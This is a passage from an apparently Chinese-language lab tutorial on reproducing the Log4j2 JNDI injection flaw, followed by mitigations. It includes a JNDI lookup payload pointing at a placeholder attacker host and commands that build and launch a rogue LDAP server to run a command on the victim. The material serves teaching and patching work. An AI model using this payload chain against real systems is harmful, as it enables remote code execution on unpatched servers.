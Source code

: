    ```
   Javaimport org.apache.logging.log4j.LogManager;
   import org.apache.logging.log4j.Logger;
   
   public class VulnerableApp {
       private static final Logger logger = LogManager.getLogger();
   
       public static void main(String[] args) {
           // 模拟用户输入恶意 payload
           String payload = "${jndi:ldap://攻击者IP:1389/Exploit}";
           logger.error(payload); // 触发漏洞
       }
   }
   ```

2. **攻击机准备（Kali Linux）**

   - 安装 JNDI 注入工具

     ：

     ```
     Bashgit clone https://github.com/veracode-research/rogue-jndi
     cd rogue-jndi
     mvn package
     ```

   - 生成恶意类并启动 LDAP 服务

     ：

     ```
     Bash
     
     
     
     
     java -jar target/RogueJndi-1.0.jar --command "touch /tmp/hacked" --hostname 攻击者IP
     ```

3. **运行测试**

   - 在 IDEA 中运行 `VulnerableApp`，观察攻击机是否收到请求。
   - 若成功，攻击机会执行预设命令（如创建 `/tmp/hacked` 文件）。

------

### 三、防御措施（参考 2 3）

1. **升级 Log4j2**
    升级到 2.15.0 或更高版本，禁用 JNDI 功能。
2. **临时缓解**
   - 添加 JVM 参数：`-Dlog4j2.formatMsgNoLookups=true`
   - 删除 `log4j-core-2.14.0.jar` 中的 `JndiLookup` 类。

------

### 注意事项
